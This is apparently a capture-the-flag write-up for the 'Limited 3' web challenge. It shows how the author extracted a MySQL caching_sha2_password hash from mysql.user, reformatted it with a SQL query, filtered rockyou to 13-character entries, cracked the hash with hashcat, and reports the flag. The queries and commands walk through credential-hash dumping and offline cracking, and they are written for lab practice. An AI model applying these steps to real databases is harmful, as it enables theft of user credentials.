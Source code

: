 # Limited 3

Author: SamXML

Note: This uses the same source as Limited 1.

There is a db user named: flag

The password for this user is 13 characters and can be found in rockyou.

Please wrap this password with wctf{} before submitting.

For example, if the password was hocuspocus123 then the flag would be wctf{hocuspocus123}

https://limited-app-974780027560.us-east5.run.app/

---

Note: If you haven't read `Limit 1` challenge yet, please read it [here]([Web]Limited1) before continuing as this challenge is the third in a series of 3 challenges.

In the source, we can see a initialize SQL file which is `initialize.sql`

```sql
USE ctf;

-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';

grant select on mysql.user to ctf;
```

The flag must be in `mysql.user` table. For those of you who don't know about this table, check [here](https://mariadb.com/kb/en/mysql-user-table/). In this challenge, we only care for 2 columns: `user` and `authentication_string`

# Solution

We can retrieve the value of `authentication_string` - a column in the `mysql.user` table stores the hashed password of each user.

![authentication_string value leaked](img/img3.png)

Because the hash does not start with an asterisk (*), it's not using `mysql_native_password`, which typically hashes passwords into a format like *<SHA1>.

Instead, we see the hash begins with `$A$`, which is the signature format of `caching_sha2_password` — the default and more secure authentication plugin in MySQL 8.0+

Howerver, this kind of hash cannot be crack with hashcat. We have to use the following query by [philsmd](https://github.com/philsmd) to dump the string that crackable

```sql
SELECT user, CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash,null,null FROM mysql.user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%'
```

I got the hash here as `$mysql$A$005*29693735722F25767D7D76694D013D2F6F6F045A*4C71716D4F514E34484F41304E4F484C50625538314E7743703054784A5159753039354E6A6A77526E622F`

Saved into `hash.txt` and I wrote a simple Python script to filter out the password with length = 13 only

```Python
# Read rockyou.txt, filter passwords with exactly 13 characters, and write to rockyou_new.txt

input_file = 'rockyou.txt'
output_file = 'rockyou_new.txt'

with open(input_file, 'r', encoding='utf-8', errors='ignore') as f_in, \
     open(output_file, 'w', encoding='utf-8') as f_out:
    for line in f_in:
        password = line.strip()
        if len(password) == 13:
            f_out.write(password + '\n')
```

Then I ran `hashcat -a 0 -m 7401 --force hash.txt rockyou_new.txt`  
Cracked the password, that is `maricrissarah`

# Flag: `wctf{maricrissarah}`